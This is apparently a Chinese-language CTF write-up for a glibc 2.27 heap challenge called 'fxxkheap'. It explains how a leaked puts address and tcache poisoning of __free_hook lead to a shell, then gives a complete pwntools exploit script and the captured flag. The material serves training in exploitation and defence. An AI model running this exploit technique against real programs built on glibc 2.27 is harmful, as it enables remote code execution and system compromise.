 | 题目名称 | fxxkheap  |
| -------- | --------- |
| 题目类型 | PWN       |
| 题目说明 | libc-2.27 |

简单的libc-2.27的堆题，gift功能给出puts的真实地址，不管是使用UAF还是堆溢出修改一个被释放的tcache的fd位到free_hook,在申请2次申请到free_hook处，修改成system函数的地址，最后释放一个写有```/bin/sh```的堆块即可getshell。

exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
context(os='linux',arch='amd64')
context.log_level = 'debug'
libc = ELF('./libc-2.27.so')

local = 1
if local:
    p = process("./pwn")
else:
    p = remote("","")


def cmd(i):
    p.sendlineafter("Your choice: ",str(i))

def add(size,data):
    cmd(1)
    p.sendlineafter("Size:",str(size))
    p.sendlineafter("Data:",data)

def free(idx):
    cmd(2)
    p.sendlineafter("Idx:",str(idx))

def edit(idx,size,data):
    cmd(3)
    p.sendlineafter("Idx:",str(idx))
    p.sendlineafter("Size:",str(size))
    p.sendlineafter("Data:",data)

cmd(4)
p.recvuntil("[puts_addr]==> ")
puts_addr = int(p.recv(14),16)
print hex(puts_addr)
libc_base = puts_addr - libc.sym['puts']
free_hook = libc_base + libc.sym['__free_hook']
system_addr = libc_base + libc.sym['system']

add(0x70,"aaa")#0
add(0x70,"/bin/sh")#1
free(0)
edit(0,0x70,p64(free_hook))
add(0x70,"aaa")#0
add(0x70,p64(system_addr))

free(1)

# gdb.attach(p)
p.interactive()
```

#MOCSCTF{H3ap_1s_s0_eAsY}

